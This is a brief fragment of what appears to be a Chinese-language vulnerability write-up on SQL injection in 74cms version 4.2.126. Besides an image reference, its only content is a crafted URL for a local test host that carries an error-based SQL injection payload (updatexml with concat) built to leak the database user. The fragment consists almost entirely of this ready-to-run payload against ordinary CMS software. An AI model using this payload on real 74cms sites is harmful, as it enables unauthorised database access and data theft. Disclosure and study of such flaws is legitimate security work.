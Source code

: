 ![](./resource/74cmsv4.2.126-前台四处sql注入/media/rId34.png)

    输入url: http://74cms.test/index.php?m=Home&c=index&a=index&uid[0]=match&uid[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a
